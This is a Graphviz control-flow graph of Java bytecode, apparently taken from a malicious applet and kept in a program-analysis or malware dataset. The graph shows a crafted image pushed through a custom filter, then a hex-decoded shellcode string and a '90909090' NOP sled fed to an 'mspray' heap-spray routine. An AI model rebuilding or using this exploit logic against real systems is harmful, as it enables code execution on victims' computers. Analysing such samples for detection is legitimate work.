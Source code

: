 digraph "" {
    "r0 := @this: vmain"
    "load.r r0"
    "r0 := @this: vmain"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "virtualinvoke <vmain: java.net.URL getCodeBase()>"
    "load.r r0"->"virtualinvoke <vmain: java.net.URL getCodeBase()>";
    "push \"logo.png\""
    "virtualinvoke <vmain: java.net.URL getCodeBase()>"->"push \"logo.png\"";
    "virtualinvoke <vmain: java.awt.Image getImage(java.net.URL,java.lang.String)>"
    "push \"logo.png\""->"virtualinvoke <vmain: java.awt.Image getImage(java.net.URL,java.lang.String)>";
    "fieldput <vmain: java.awt.Image src>"
    "virtualinvoke <vmain: java.awt.Image getImage(java.net.URL,java.lang.String)>"->"fieldput <vmain: java.awt.Image src>";
    "new java.awt.MediaTracker"
    "fieldput <vmain: java.awt.Image src>"->"new java.awt.MediaTracker";
    "store.r $r5"
    "new java.awt.MediaTracker"->"store.r $r5";
    "load.r $r5"
    "store.r $r5"->"load.r $r5";
    "load.r $r5"->"load.r r0";
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"
    "load.r r0"->"specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>";
    "specialinvoke <java.awt.MediaTracker: void <init>(java.awt.Component)>"->"load.r $r5";
    "load.r $r5"->"load.r r0";
    "fieldget <vmain: java.awt.Image src>"
    "load.r r0"->"fieldget <vmain: java.awt.Image src>";
    "push 0"
    "fieldget <vmain: java.awt.Image src>"->"push 0";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"
    "push 0"->"virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>";
    "virtualinvoke <java.awt.MediaTracker: void addImage(java.awt.Image,int)>"->"load.r $r5";
    "virtualinvoke <java.awt.MediaTracker: void waitForAll()>"
    "load.r $r5"->"virtualinvoke <java.awt.MediaTracker: void waitForAll()>";
    "goto load.r $r5"
    "virtualinvoke <java.awt.MediaTracker: void waitForAll()>"->"goto load.r $r5";
    "goto load.r $r5"->"load.r $r5";
    "load.r $r5"->"load.r r0";
    "load.r r0"->"fieldget <vmain: java.awt.Image src>";
    "virtualinvoke <java.awt.MediaTracker: void removeImage(java.awt.Image)>"
    "fieldget <vmain: java.awt.Image src>"->"virtualinvoke <java.awt.MediaTracker: void removeImage(java.awt.Image)>";
    "virtualinvoke <java.awt.MediaTracker: void removeImage(java.awt.Image)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "new java.awt.image.FilteredImageSource"
    "load.r r0"->"new java.awt.image.FilteredImageSource";
    "dup1.r"
    "new java.awt.image.FilteredImageSource"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r r0"->"fieldget <vmain: java.awt.Image src>";
    "virtualinvoke <java.awt.Image: java.awt.image.ImageProducer getSource()>"
    "fieldget <vmain: java.awt.Image src>"->"virtualinvoke <java.awt.Image: java.awt.image.ImageProducer getSource()>";
    "new vsub"
    "virtualinvoke <java.awt.Image: java.awt.image.ImageProducer getSource()>"->"new vsub";
    "new vsub"->"dup1.r";
    "specialinvoke <vsub: void <init>()>"
    "dup1.r"->"specialinvoke <vsub: void <init>()>";
    "specialinvoke <java.awt.image.FilteredImageSource: void <init>(java.awt.image.ImageProducer,java.awt.image.ImageFilter)>"
    "specialinvoke <vsub: void <init>()>"->"specialinvoke <java.awt.image.FilteredImageSource: void <init>(java.awt.image.ImageProducer,java.awt.image.ImageFilter)>";
    "virtualinvoke <vmain: java.awt.Image createImage(java.awt.image.ImageProducer)>"
    "specialinvoke <java.awt.image.FilteredImageSource: void <init>(java.awt.image.ImageProducer,java.awt.image.ImageFilter)>"->"virtualinvoke <vmain: java.awt.Image createImage(java.awt.image.ImageProducer)>";
    "fieldput <vmain: java.awt.Image dst>"
    "virtualinvoke <vmain: java.awt.Image createImage(java.awt.image.ImageProducer)>"->"fieldput <vmain: java.awt.Image dst>";
    "fieldput <vmain: java.awt.Image dst>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "staticget <vmain: java.lang.String scc>"
    "load.r r0"->"staticget <vmain: java.lang.String scc>";
    "staticinvoke <vmain: short[] HexDecode(java.lang.String)>"
    "staticget <vmain: java.lang.String scc>"->"staticinvoke <vmain: short[] HexDecode(java.lang.String)>";
    "push \"90909090\""
    "staticinvoke <vmain: short[] HexDecode(java.lang.String)>"->"push \"90909090\"";
    "push \"90909090\""->"staticinvoke <vmain: short[] HexDecode(java.lang.String)>";
    "virtualinvoke <vmain: java.nio.IntBuffer[] mspray(short[],short[])>"
    "staticinvoke <vmain: short[] HexDecode(java.lang.String)>"->"virtualinvoke <vmain: java.nio.IntBuffer[] mspray(short[],short[])>";
    "fieldput <vmain: java.nio.IntBuffer[] mem>"
    "virtualinvoke <vmain: java.nio.IntBuffer[] mspray(short[],short[])>"->"fieldput <vmain: java.nio.IntBuffer[] mem>";
    "goto return"
    "fieldput <vmain: java.nio.IntBuffer[] mem>"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <vmain: java.nio.IntBuffer[] mspray(short[],short[])>"->"store.r r0";
    "store.r $r17"
    "virtualinvoke <java.awt.MediaTracker: void waitForAll()>"->"store.r $r17";
}
